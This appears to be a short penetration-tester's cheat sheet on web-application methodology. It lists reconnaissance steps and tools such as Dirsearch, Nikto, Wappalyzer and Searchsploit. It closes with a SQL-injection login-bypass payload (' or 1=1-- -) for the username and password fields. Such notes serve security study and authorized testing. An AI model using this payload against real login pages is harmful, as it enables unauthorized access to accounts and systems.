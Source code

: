 ```yaml
---
description: Love/Hate relationship with web pages
---
```


# 🕸 Web Page Methodology

## Checklist

1. <mark style="color:yellow;">Visual Inspection/"mess around" with web application</mark> -- Take note of what the normal/expected behavior is. What seems off or broken? What is the web server's native programming language? Check robots.txt,&#x20;
2. <mark style="color:yellow;">Dirsearch</mark> -- Wordlist variety (default and medium wordlist), specify proxy (if needed), use correct port and path
3. <mark style="color:yellow;">Nikto</mark> -- Vulnerability scan/easy win?
4. <mark style="color:yellow;">Wappalyzer</mark> -- What versions are running? <mark style="color:yellow;">Google</mark> and <mark style="color:yellow;">Searchsploit</mark> them all.
5. <mark style="color:yellow;">Source Code</mark> -- Is there anything within the source code?

## Login Page

Username:

```
' or 1=1-- -
```

Password:

```
' or 1=1-- -
```
